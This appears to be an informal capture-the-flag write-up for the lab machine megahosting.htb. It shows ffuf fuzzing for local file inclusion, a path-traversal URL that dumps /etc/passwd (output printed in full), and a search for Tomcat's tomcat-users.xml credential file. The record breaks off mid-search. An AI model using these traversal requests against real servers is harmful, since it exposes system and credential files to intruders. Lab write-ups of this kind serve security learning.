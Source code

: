 And BOOM, some hits over there:
```
ffuf -u http://megahosting.htb/news.php\?file\=FUZZ -w /home/lotape6/resources/hack/SecLists/Fuzzing/LFI/LFI-LFISuite-pathtotest.txt -fs 0


http://megahosting.htb/news.php?file=../../../../etc/passwd

root:x:0:0:root:/root:/bin/bash daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin bin:x:2:2:bin:/bin:/usr/sbin/nologin sys:x:3:3:sys:/dev:/usr/sbin/nologin sync:x:4:65534:sync:/bin:/bin/sync games:x:5:60:games:/usr/games:/usr/sbin/nologin man:x:6:12:man:/var/cache/man:/usr/sbin/nologin lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin mail:x:8:8:mail:/var/mail:/usr/sbin/nologin news:x:9:9:news:/var/spool/news:/usr/sbin/nologin uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin proxy:x:13:13:proxy:/bin:/usr/sbin/nologin www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin backup:x:34:34:backup:/var/backups:/usr/sbin/nologin list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin messagebus:x:103:106::/nonexistent:/usr/sbin/nologin syslog:x:104:110::/home/syslog:/usr/sbin/nologin _apt:x:105:65534::/nonexistent:/usr/sbin/nologin tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin pollinate:x:110:1::/var/cache/pollinate:/bin/false sshd:x:111:65534::/run/sshd:/usr/sbin/nologin systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false tomcat:x:997:997::/opt/tomcat:/bin/false mysql:x:112:120:MySQL Server,,,:/nonexistent:/bin/false ash:x:1000:1000:clive:/home/ash:/bin/bash
```

Then we can try accessing files from tomcat server by using the path shown in the index.html page:
http://megahosting.htb/news.php?file=../../../../var/lib/tomcat9/webapps/ROOT/index.html

And it works like a charm! Let's find out another interesting files to retrieve:
https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/tomcat/basic-tomcat-info

After realizing I'm stupid, I've searched the most stupid thing I should have done much earlier:
`tomcat-users.xml default path`
And it's: `CATALINA_HOME/conf/tomcat-users.xml`
Being `CATALINA_HOME` = `/usr/share/tomcat9`
SOOOOOOOOOOOOOOOOOOOOOOOOOOOO

`/usr/share/tomcat9/conf/tomcat-users.xml`

FUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUCK
It is the last path in the whole index.html. I'm completely stupid:
`/etc/tomcat9/tomcat-users.xml`
Ah no it's not haha.


 /var/lib/tomcat9/bin/setenv.sh

Catalina home:

/home/tomcat/apache-tomcat-9.0.31
/home/ash/apache-tomcat-9.0.31
